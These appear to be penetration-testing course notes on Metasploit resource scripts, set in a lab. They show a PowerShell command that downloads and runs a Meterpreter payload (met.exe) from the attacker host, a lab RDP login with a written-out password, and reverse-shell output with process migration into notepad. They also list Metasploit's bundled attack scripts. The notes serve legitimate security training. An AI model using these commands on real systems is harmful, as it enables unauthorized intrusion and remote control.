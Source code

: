 Now, let's save the script and start Metasploit by entering **msfconsole** with the resource script as argument for **-r**
```
sudo msfconsole -r listener.rc
```

Let's connect to the BRUTE2 machine via RDP with user _justin_ and password _SuperS3cure1337#_, start PowerShell, download the malicious Windows executable **met.exe** that we already used in previous sections, and execute it 
```
PS C:\Users\justin> iwr -uri http://192.168.119.4/met.exe -Outfile met.exe

PS C:\Users\justin> .\met.exe
```

Once **met.exe** gets executed, Metasploit notifies us about the incoming connection:
```
[*] Started HTTPS reverse handler on https://192.168.119.4:443
[*] https://192.168.119.4:443 handling request from 192.168.50.202; (UUID: rdhcxgcu) Redirecting stageless connection from /dkFg_HAPAAB9KHwqH8FRrAG1_y2iZHe4AJlyWjYMllNXBbFbYBVD2rlxUUDdTrFO7T2gg6ma5cI-GahhqTK9hwtqZvo9KJupBG7GYBlYyda_rDHTZ1aNMzcUn1x with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0'
[*] https://192.168.119.4:443 handling request from 192.168.50.202; (UUID: rdhcxgcu) Attaching orphaned/stageless session...
[*] Session ID 1 (192.168.119.4:443 -> 127.0.0.1) processing AutoRunScript 'post/windows/manage/migrate'
[*] Running module against BRUTE2
[*] Current server process: met.exe (2004)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 5340
[+] Successfully migrated into process 5340
[*] Meterpreter session 1 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-02 09:54:32 -0400
```
+ Metasploit automatically migrated to the newly spawned Notepad process

Instead of creating our own resource scripts, we can also use the already provided resource scripts from Metasploit
+ They can be found in the **`scripts/resource/`** directory in the Metasploit directory
+ Full path: `/usr/share/metasploit-framework/scripts/resource`
```
kali@kali:~$ ls -l /usr/share/metasploit-framework/scripts/resource
total 148
-rw-r--r-- 1 root root  7270 Jul 14 12:06 auto_brute.rc
-rw-r--r-- 1 root root  2203 Jul 14 12:06 autocrawler.rc
-rw-r--r-- 1 root root 11225 Jul 14 12:06 auto_cred_checker.rc
-rw-r--r-- 1 root root  6565 Jul 14 12:06 autoexploit.rc
-rw-r--r-- 1 root root  3422 Jul 14 12:06 auto_pass_the_hash.rc
-rw-r--r-- 1 root root   876 Jul 14 12:06 auto_win32_multihandler.rc
...
-rw-r--r-- 1 root root  2419 Jul 14 12:06 portscan.rc
-rw-r--r-- 1 root root  1251 Jul 14 12:06 run_all_post.rc
-rw-r--r-- 1 root root  3084 Jul 14 12:06 smb_checks.rc
-rw-r--r-- 1 root root  3837 Jul 14 12:06 smb_validate.rc
-rw-r--r-- 1 root root  2592 Jul 14 12:06 wmap_autotest.rc
```
+ Above shows that there are resource scripts provided for port scanning, brute forcing, protocol enumerations, and so on
+ Before we attempt to use them, we should thoroughly examine, understand, and modify them to fit our needs

